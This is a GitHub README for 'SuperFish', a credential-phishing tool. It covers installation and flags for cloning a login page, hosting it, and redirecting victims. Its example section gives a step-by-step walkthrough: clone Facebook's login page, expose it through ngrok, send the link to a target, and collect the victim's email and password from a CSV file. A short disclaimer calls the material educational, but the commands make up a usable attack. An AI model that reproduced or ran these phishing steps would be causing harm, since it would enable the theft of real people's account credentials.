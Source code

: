 ## 👋 It's in beta, I'm still building
----
# How to install
#### Linux and Termux:
- Clone Rp: `git clone https://github.com/J4c5/superfish.git`
- Install the dependencies: `pip3 install -r requirements.txt`

# Arguments and Usage
#### The list of arguments are these:
```sh
--import-template
--local-template
--webserver-port
--webserver-host
--redirect
--output
```
#### Description of each argument
- `--import-template`: import a login template using a url for example: `--import-template=https://facebook.com/login`
- `--local-template`: use a local template that you might have downloaded to an index.html, example: `--local-template=./mytemplate/index.html`
- `--webserver-port`: configure a port for the server the default is 8080, example: `--webserver-port=8082`
- `--webserver-host`: configure a host, the default is: 127.0.0 1, example: `--webserver-host=0.0.0.0`
-  `--redirect`: configure where the victim will be directed to post the phishing, example: `--redirect=https://facebook.com`
-  `--output`: edit the phishing output, if you want in csv use: `--output=csv` or you want text: `--output=text`

### Examples
> ⚠ Warning - Do not use these means for bad things, this tool and author is not responsible for any damage caused. the methods explained here are for the purpose of teaching how the framework works.
#### Clone the facebook login page and create a link to it for everyone:
- 1 Start Ngrok Service: `ngrok http 1337`
- 2 Start SuperFish: `python3 superfish.py --import-template=https://facebook.com/login --redirect=https://facebook.com --webserver-port=1337 --output=csv`
- 3 share the public ngrok link with the target, the link will look like: "https://9470-131-161-179-245.ngrok.io"
- 4 then look in the CSV file, you will see the ip of the email and the password of the victim.

# License
